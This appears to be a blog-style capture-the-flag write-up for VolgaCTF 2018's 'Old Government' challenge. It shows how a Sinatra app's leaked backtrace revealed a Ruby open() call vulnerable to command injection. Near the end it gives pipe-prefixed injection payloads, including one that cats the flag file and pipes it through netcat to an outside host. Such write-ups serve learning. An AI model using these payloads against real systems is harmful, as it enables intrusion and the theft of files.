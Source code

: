 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author: onionpsy
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby
        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url (`site`) and the other is an optional description (`description`). We used once again the `page?id[]=36` trick but through the POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by [OWASP - Ruby on Rails Cheatsheet](https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet), `open` can be actually used to inject command.
After some tries we can see that it works:
 * `site=| ls` show `validated`
 * `site=| aaaa` show `error`

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `site=| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`site=| cat ../../flag | netcat <ip> <port>`

Done!
